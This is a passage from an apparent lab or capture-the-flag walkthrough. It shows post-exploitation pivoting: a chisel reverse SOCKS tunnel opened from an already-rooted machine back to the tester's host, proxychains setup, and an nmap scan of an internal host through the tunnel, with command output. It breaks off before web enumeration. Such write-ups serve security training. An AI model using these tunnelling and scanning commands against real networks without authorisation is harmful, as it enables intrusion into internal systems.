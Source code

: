 ```bash
./chisel.sh server --reverse -p 1234
2023/04/21 10:41:21 server: Reverse tunnelling enabled
2023/04/21 10:41:21 server: Fingerprint mJhxosRnafmGDz5dRSAPLQJ0fJ2Tl6xgN8ZUr0/ddHM=
2023/04/21 10:41:21 server: Listening on http://0.0.0.0:1234
2023/04/21 10:42:59 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
and from the machine that we obtained root before we have to use it as client for example 
```bash
bash-5.0# ./chisel.sh client 192.168.100.53:1234 R:socks
```
in order to use this tunneling we will use proxychains to do this we have to change some setting here
we have to open proxychains conf in order to add our connection via sock5
example 


nvim /etc/proxychains.conf   
```bash
nvim /etc/proxychains.conf  
```
scroll down and add

```bash
socks5 127.0.0.1 1080  
```

now let's verify if it worked using nmap in order to enumerate the ports open that we saw using my PorScanner.sh.in this case we will take adventage of the tunning and nmap using proxychains

```bash
❯ proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n 10.10.0.137 2>/dev/null | grep  -vE "timeout"
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-20 21:31 CST
Initiating Connect Scan at 21:31
Scanning 10.10.0.137 [500 ports]
Discovered open port 80/tcp on 10.10.0.137
Discovered open port 22/tcp on 10.10.0.137
Completed Connect Scan at 21:31, 2.29s elapsed (500 total ports)
Nmap scan report for 10.10.0.137
Host is up (0.0038s latency).
Not shown: 498 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
we must use -sT and -Pn parameters because we are using a tunneling type socks 5 in order to avoid problems

we saw port 22 and 80 so we have to enumerate that service on port 80 but we are not able to see it unless we use foxyProxy and add it as our local host 

example here's an example of how to set [foxyProxy](https://github.com/Zeekk3n/FoxyProxy) in case, if you don't know how to set it

now how we can enumerate that port 80 we will search for possible routes using go buster 
